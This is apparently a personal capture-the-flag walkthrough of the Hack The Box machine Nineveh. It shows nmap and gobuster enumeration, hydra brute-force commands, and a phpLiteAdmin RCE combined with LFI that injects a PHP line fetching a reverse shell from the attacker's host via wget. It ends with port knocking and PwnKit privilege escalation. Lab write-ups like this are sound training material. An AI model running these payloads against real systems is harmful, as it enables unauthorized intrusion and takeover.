

# Summary


## about target

tip:  10.129.35.170

hostname: Nineveh

Difficulty: Medium


## about attack

+ missed the port 80, dir scan; which is vulnerable to LFI
+ privesc, pkexec suid and chkrootkit, way to find via the special sh file.


**attack note**

```bash
ctrl-z   # back groud the shell? 
stty -a

stty raw -echo

nc -nvlp 4444  # back to shell

stty rows 49 # from the stty -a
stty cols 185 # from the stty -a

ls  # tab and autuseggustion work.


Nineveh / 10.129.35.59

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-title: Site doesn't have a title (text/html).
| tls-alpn:
|_  http/1.1
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_ssl-date: TLS randomness does not represent time


## http enum 

port 80, nothing.   //missed the key info, which is vulnerable to LFI
dir scan
gobuster dir -u http://$tip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster.txt

/department
/server-status

amrois, found in the login.php src.

login with weak password, no result.

brute force.
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.30.249 http-post-form "/department/login.php:username="^USER^"&password=^PASS^:Invalid Password" -V


port 443
dir scan, /db  /secure_notes /server_status
gobuster dir -k -u https://$tip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -o gobuster443.txt

phpliteadmin 1.9

/secure_notes/nineveh.png
hide info in png file.  contains a private key from amrois.
strings nineveh.png

exploit:
rce  https://www.exploit-db.com/exploits/24044 https://github.com/F-Masood/PHPLiteAdmin-1.9.3---Exploit-PoC


hydra brute force.  
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.35.170 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" -V

passowrd, password123

<?php system("wget http://10.10.14.62/phpshell.txt -O /tmp/shell.php;php /tmp/shell.php");?>

LFI check the fime  or  in the shell of www-data
/etc/knockd.conf 

knock 571 290 911

ssh -i key amrois@$tip

## privesc


```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-title: Site doesn't have a title (text/html).
| tls-alpn:
|_  http/1.1
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
```


## http 80

default page, nothing


dirscan, found two path.

```bash
gobuster dir -u http://$tip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster.txt

/department           (Status: 301) [Size: 319] [--> http://10.129.30.249/department/]
/server-status        (Status: 403) [Size: 301]

```

/department/, login.php found user name, armois.


try login with weak password.  Wrong password.

```bash
admin:admin
admin:armois
admin:password
```

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.30.249 http-post-form "/department/login.php:username="^USER^"&password=^PASS^:Invalid Password" -V
```

got password.  login: admin   password: 1q2w3e4r5t


Login, nothing to enum.


## http 443

default page, nothing.


dir scan.

```bash
gobuster dir -k -u https://$tip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -o gobuster443.txt

/db                   (Status: 301) [Size: 311] [--> https://10.129.35.59/db/]
/server-status        (Status: 403) [Size: 301]
/secure_notes         (Status: 301) [Size: 321] [--> https://10.129.35.59/secure_notes/]
```

/db, phpliteadmin 1.9. 

Exploit:  rce  https://www.exploit-db.com/exploits/24044 https://github.com/F-Masood/PHPLiteAdmin-1.9.3---Exploit-PoC


/secure_notes, strange image.

download and check image, found private key.


```bash
strings nineveh.png
```


try bruteforce, got passwrd: password123.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.30.249 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" -V
```


# Exploitation

try phpliteadmin rce

https://www.exploit-db.com/exploits/24044 

https://github.com/F-Masood/PHPLiteAdmin-1.9.3---Exploit-PoC

create db, poc.php. 

create table, shell, 1 feild. 

```bash
<?php system("wget http://10.10.14.62/phpshell.txt -O /tmp/shell.php;php /tmp/shell.php");?>
```


db save to /var/tmp/poc.php



create phpshell.txt. change the ip and por.

```bash
cp /usr/share/webshells/php/php-reverse-shell.php ./phpshell.txt

```


这里无法直接使用 exploit 中rce 最后一步，只能配合 LFI 利用。

```bash
http://10.129.30.249/department/manage.php?notes=/var/tmp/poc.php
```

no shell back, and no http request to phpshell.txt


create  new db, name: ninevehNotes.txt.php 


http://10.129.30.249/department/manage.php?notes=/var/tmp/ninevehNotes.txt.php

got shell.


# Privesc


## Local enum

check ssh service.


check knockd.conf

```bash
cat /etc/knockd.conf
```


ssh with the key.

```bash
knock 10.129.35.249 571 290 911

ssh -i keyfrompng amrois@$tip
```


cronjob, found report-rest.sh.


linpeas enum.

pkexec with suid, and kernel 4.4.


## System

```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
```

got root.


## system-chkrootkit

https://medium.com/@fellsec/hackthebox-write-up-nineveh-23fc607325d0

pspy check cronjob   


## proof

```bash


```


